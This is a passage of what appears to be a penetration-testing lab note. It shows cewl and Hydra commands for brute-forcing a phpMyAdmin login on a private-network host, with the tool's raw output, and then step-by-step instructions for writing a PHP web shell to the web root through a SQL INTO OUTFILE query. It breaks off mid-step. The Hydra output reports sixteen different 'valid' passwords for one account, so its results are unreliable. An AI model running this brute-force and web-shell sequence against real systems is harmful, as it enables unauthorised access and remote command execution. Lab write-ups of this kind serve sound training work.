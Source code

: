```bash
# Website-specific wordlist
cewl -d 2 -m 5 -w custom_wordlist.txt http://192.168.74.162
hydra -l root -P custom_wordlist.txt 192.168.74.162 http-post-form "/phpMyAdmin/index.php:username=^USER^&password=^PASS^:F=error"

```

```bash

   └─$ hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.74.162 http-post-form "/phpMyAdmin/index.php:username=^USER^&password=^PASS^:F=error"

   Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak

   [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task

   [DATA] attacking http-post-form://192.168.74.162:80/phpMyAdmin/index.php:username=^USER^&password=^PASS^:F=error

   [80][http-post-form] host: 192.168.74.162 login: root password: babygirl
   [80][http-post-form] host: 192.168.74.162 login: root password: 1234567
   [80][http-post-form] host: 192.168.74.162 login: root password: 12345
   [80][http-post-form] host: 192.168.74.162 login: root password: password
   [80][http-post-form] host: 192.168.74.162 login: root password: monkey
   [80][http-post-form] host: 192.168.74.162 login: root password: nicole
   [80][http-post-form] host: 192.168.74.162 login: root password: 123456789
   [80][http-post-form] host: 192.168.74.162 login: root password: abc123
   [80][http-post-form] host: 192.168.74.162 login: root password: princess
   [80][http-post-form] host: 192.168.74.162 login: root password: daniel
   [80][http-post-form] host: 192.168.74.162 login: root password: 123456
   [80][http-post-form] host: 192.168.74.162 login: root password: iloveyou
   [80][http-post-form] host: 192.168.74.162 login: root password: lovely
   [80][http-post-form] host: 192.168.74.162 login: root password: rockyou
   [80][http-post-form] host: 192.168.74.162 login: root password: jessica
   [80][http-post-form] host: 192.168.74.162 login: root password: 12345678

   1 of 1 target successfully completed, 16 valid passwords found

   ```

![[Pasted image 20250408100656.png]]

4. **Web Shell Deployment via phpMyAdmin**:  

   After successfully logging into phpMyAdmin with the credentials found during the brute force attack, you can deploy a web shell using one of these methods:

   **Method 1: Direct File Write Using SQL**

   1. Log in to phpMyAdmin using the credentials found (e.g., username: root, password: 123456)
   2. Click on the "SQL" tab at the top of the interface
   3. Enter the following SQL command to write a PHP web shell directly to the web server's directory:

   ```sql
   SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php";
   ```

   4. If you encounter a permission error, try different web-accessible directories:

   ```sql

   -- Try alternative directories if the first attempt fails
```